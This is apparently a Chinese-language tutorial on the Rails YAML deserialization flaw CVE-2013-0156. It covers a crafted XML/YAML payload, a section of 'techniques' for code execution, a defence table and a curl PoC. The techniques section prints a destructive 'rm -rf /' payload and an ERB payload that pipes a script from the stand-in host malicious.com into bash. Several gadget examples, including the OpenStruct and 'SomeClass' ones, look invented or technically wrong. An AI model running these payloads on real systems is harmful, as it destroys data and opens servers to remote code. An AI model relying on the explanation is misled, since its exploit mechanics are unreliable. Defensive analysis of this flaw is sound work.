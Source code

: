 ## 🧱 前提知识：YAML 反序列化与对象创建

在 Ruby 中，`YAML.load()` 是用于将 YAML 格式字符串反序列化为 Ruby 对象的方法。Ruby 默认使用 `Syck` 或 `Psych` 作为 YAML 解析器。

YAML 支持一种特殊语法，可以指定要反序列化的对象类型，例如：

```yaml
!ruby/object:Gem::Installer
i: x
```

上面的 YAML 表示“创建一个 `Gem::Installer` 类的实例”，即使该类并不是通常意义上的可安全反序列化的对象。

当 Rails 接收到包含这种 YAML 的 XML 请求时，会自动调用 `YAML.load()` 来解析数据，从而创建对应的 Ruby 对象。

---

## 🧪 示例攻击流程详解

### 1. 构造恶意 XML 数据

攻击者构造如下 XML 数据：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<exploit type="yaml">
---
:object: !ruby/object:Gem::Installer
  i: x
</exploit>
```

这段 XML 包含了一个嵌套的 YAML 文本块，其中指定了一个 `Gem::Installer` 对象。

### 2. Rails 自动解析 XML 并处理 YAML 内容

Rails 在接收到这个 XML 请求后，会尝试将其转换为 Ruby Hash，通常是通过以下方法：

```ruby
Hash.from_xml(xml_string)
```

这个方法内部会对 XML 中的内容进行解析。如果检测到某个字段看起来像是 YAML（比如以 `---` 开头），就会调用 `YAML.load()` 进行反序列化。

所以最终会执行类似这样的操作：

```ruby
YAML.load("---\n:object: !ruby/object:Gem::Installer\n  i: x")
```

### 3. 创建 Gem::Installer 实例

YAML 解析器识别出 `!ruby/object:Gem::Installer` 后，会尝试创建一个 `Gem::Installer` 类的实例。

虽然 `Gem::Installer` 本身并不是设计用来被反序列化的类，但其初始化函数可能会访问某些属性或触发某些行为。

例如，假设反序列化时传入了一些特定参数（如 gem 文件路径、选项等），那么它的 `initialize` 方法可能会尝试去安装某个 gem 包。

### 4. 利用已知漏洞触发任意代码执行

虽然 `Gem::Installer` 本身不会直接执行任意命令，但攻击者可以通过以下方式扩展利用：

#### ✅ 技巧一：调用其他类的危险方法

除了 `Gem::Installer`，攻击者还可以选择其他更“危险”的类，例如：

```yaml
!ruby/object:OpenStruct
m: { "method_missing": "system('rm -rf /')" }
```

或者：

```yaml
!ruby/object:ERB
  src: "<%= system('curl http://malicious.com/shell.sh | bash') %>"
```

这些类的某些方法可能在初始化或调用时会执行任意系统命令。

#### ✅ 技巧二：利用 `send` 或 `eval` 调用任意方法

Ruby 是动态语言，支持反射和元编程。攻击者可以通过构造特殊的对象结构，调用任意方法，比如：

```yaml
!ruby/object:SomeClass
  singleton_methods:
    - :eval
```

或者：

```yaml
!ruby/object:Binding
```

一旦能获得一个 `Binding` 对象，攻击者就可以在其上下文中执行任意 Ruby 代码。

---

## 🔐 为什么这是一个严重漏洞？

1. **无需用户权限即可触发**：攻击者只需发送一个 HTTP 请求。
2. **影响范围广**：所有接受 XML 输入的 Rails 应用都可能受影响。
3. **危害极高**：攻击者可以完全控制服务器。
4. **自动化攻击容易**：PoC 很简单，容易被扫描器或僵尸网络利用。

---

## 💡 安全建议总结

| 风险点 | 建议 |
|--------|------|
| 不安全的 YAML 反序列化 | 禁止使用 `YAML.load()` 处理不可信输入 |
| 使用 XML 接收复杂数据 | 尽量改用 JSON 格式 |
| 接受用户提交的对象结构 | 严格校验输入结构，避免自动映射 |
| 使用旧版本 Rails | 升级到最新稳定版 |

---

## 🧪 如何测试你的应用是否受影响？

你可以使用如下 PoC 请求进行本地测试（**仅限测试环境**）：

```bash
curl -X POST -H "Content-Type: application/xml" -d '
<?xml version="1.0" encoding="UTF-8"?>
<exploit type="yaml">
---
:object: !ruby/object:Gem::Installer
  i: x
</exploit>' http://your-rails-app.com/endpoint
```

如果你的应用返回异常错误（如找不到类、无法初始化）说明已经修复；如果没有任何报错甚至成功响应，说明可能存在风险。

---

## 📚 参考资料

- [CVE-2013-0156 官方公告](https://groups.google.com/forum/#!topic/rubyonrails-security/UuAVpzDsE4o)
- [Ruby on Rails 漏洞原理分析](https://www.rapid7.com/blog/post/2013/01/09/exploiting-code-from-the-cve-2013-0156-rails-vulnerability/)
- [Ruby YAML 反序列化漏洞 PoC](https://www.exploit-db.com/exploits/24112)

---
